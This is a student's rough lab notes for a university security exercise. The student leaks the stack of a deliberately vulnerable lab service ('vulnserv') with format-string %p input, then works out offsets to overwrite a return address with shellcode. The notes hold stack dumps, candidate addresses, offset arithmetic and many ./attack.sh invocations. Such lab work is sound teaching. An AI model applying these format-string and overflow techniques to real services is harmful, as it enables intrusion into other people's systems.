 # Exercise 2
## Jakob Udovic, s1049877

https://www.rapidtables.com/convert/number/hex-to-ascii.html  

After feeding the stack with 300 (290) %p-s, I overwrote all data, except the first 5 registers.  %p-s bytes overwrote everything again, 500 "%p "-s crashed the service.  

```
0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x
```

After observing the stack with like 50 %p-s, I found out these could be the frame pointer and return address:  
0x7fffffffec10 0x555555555260

With **231 bytes** long string I have overriten the first return address. We need to remember this number. There is, however, 20 at the end of it, so null bytes will be needed.  

Address looks like this:  
```
0x123456789abc20
```

List/shell code is 33 bytes long.   
231 - 33 = 198   
33 byes means 11 "%p " strings since each one consists of 3 ascii characters, 1 byte each.  

75 - 11 = 64  

So we change attack from `./attack.sh 75 0x123456789abc` to `./attack.sh 64 0x123456789abc 0`  
```


```
But address has still 20 at the end. I solve this by shortening the string from 231 bytes to 230. I get the following:  
`./attack.sh 63 0x123456789abc 2`  
Now it's time to use real addresses, I just used 0x123456789abc for easier tracking in terminal..   


0x7ffff7f60070   

./attack.sh 63 0x7ffff7f60070 2
```

```

Candidates:
0x7fffffffec00 (fp1)  
0x7fffffffec68 (fp2)  
0x7fffffffec10 (fp3?)  
0x7ffff7f851f5  
0x7ffff7f851ce  (fp??)
0x7fffffffec50  
0x7ffff7ffdd48 (fp)  
0x7fffffffee50 (fp dont even count anymore)  
0x7fffffffee5e (buffer start?)

Temporal calculation:  
String needs to be 189B.  
`./attack.sh 61 0x123456789abc`  
is the same as  
`./attack.sh 50 0x123456789abc 0`  

We need to add 1 byte of offset to completely override first return address:  
`./attack.sh 50 0x123456789abc 1`  


./attack.sh 50 0x7fffffffee5e 1
./attack.sh 50 0x7fffffffec00 1
./attack.sh 50 0x7fffffffec68 1
./attack.sh 50 0x7fffffffec10 1
./attack.sh 50 0x7ffff7f851f5 1 ?
./attack.sh 50 0x7ffff7f851ce 1
./attack.sh 50 0x7fffffffec50 1
./attack.sh 50 0x7ffff7ffdd48 1
./attack.sh 50 0x7fffffffee50 1
./attack.sh 50 0x7fffffffee5e 1
./attack.sh 50  1
./attack.sh 50  1

Bunch of crap on the stack:  
0x7fffffffee5e  
0x7fffffffeea0   
0x7fffffffeeab  
0x7fffffffef06  
0x7fffffffef1a  
0x7fffffffef26  
0x7fffffffef2c  
0x7fffffffef3f  
0x7fffffffef46  
0x7fffffffef54  
0x7fffffffef62  
0x7fffffffef78  
0x7fffffffef87  
0x7fffffffefa4  
0x7fffffffefb8  
0x7fffffffefd5  


By further observing stack and flipping values as in exercise 3 I found:  

Running ./addr.sh for the following values, I got:  
```
declare -a arr=("0x4af8a06910402000" "0xcdbc08904063bae9" "xb2c1e117f0365c00" "0x6bc427b1f25ef6a1" "0x34365f363878bf" "0x6c75762f6e69622f" "0x415000767265736e" "0x2f7273752f3d4854" "0x62732f6c61636f6c" "0x2f7273752f3a6e69" "0x69622f6c61636f6c" "0x732f7273752f3a6e" "0x7273752f3a6e6962" "0x62732f3a6e69622f" "0x6e69622f3a6e69" "0x6574783d4d524554" "0x4944444150006d72" "0x41414141413d474e" "0x4141414141414141" "0x4141414141414141" "0x4141414141414141" "0x4141414141414141" "0x4141414141414141" "0x4141414141414141" "0x4141414141414141" "0x69676f6c6f6e2f6e" "0x6e3d52455355006e" "0x57500079646f626f" "0x415f434c002f3d44" "0x53555f6e653d4c4c" "0x4800382d4654552e" "0x4f53002f3d454d4f" "0x3d4449505f544143" "0x41434f5300343034" "0x313d444950505f54" "0x5f5441434f530033" "0x3d4e4f4953524556" "0x342e332e372e31" "0x3d454d414e474f4c" "0x530079646f626f6e" "0x434f535f5441434f" "0x37313d524444414b" "0x2e37322e37312e32" "0x41434f5300333432" "0x4f504b434f535f54" "0x373333313d5452" "0x45505f5441434f53" "0x313d524444415245" "0x37322e37312e3237" "0x434f53003234322e" "0x50524545505f5441" "0x333633333d54524f" "0x762f6e69622f0038" "0x767265736e6c75")
```
```
x86_64/bin/vulnservPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binTERM=xtermPADDING=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAn/nologinUSER=nobodyPWD=/LC_ALL=en_US.UTF-8HOME=/SOCAT_PID=404SOCAT_PPID=13SOCAT_VERSION=1.7.3.4LOGNAME=nobodySOCAT_SOCKADDR=172.17.27.243SOCAT_SOCKPORT=1337SOCAT_PEERADDR=172.17.27.242SOCAT_PEERPORT=33638/bin/vulnserv
```


Nicer:  
```
x86_64/bin/vulnserv
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
TERM=xterm
PADDING=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAn/nologin
USER=nobody
PWD=/
LC_ALL=en_US.UTF-8
HOME=/
SOCAT_PID=404
SOCAT_PPID=13
SOCAT_VERSION=1.7.3.4
LOGNAME=nobody
SOCAT_SOCKADDR=172.17.27.243
SOCAT_SOCKPORT=1337
SOCAT_PEERADDR=172.17.27.242
SOCAT_PEERPORT=33638
/bin/vulnserv
```



Just the stack 40B:  
```
0x70252070252070 0 0 0 0 0 0 0x555555555257 0x7fffffffec00 0x555555555247 0x7fffffffec68 0x100000000 0x7fffffffec10 0x555555555260 0x1 0x7ffff7f851f5 0x7ffff7f851ce 0x7fffffffec50 0 0xf8 0x7ffff7ffdd48
```



```
0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x70 0 0 0 0 0 0 0 0 0 0x555555555257 0x7fffffffec00 0x555555555247 0x7fffffffec68
```



```

```


Flag:  
```

```
 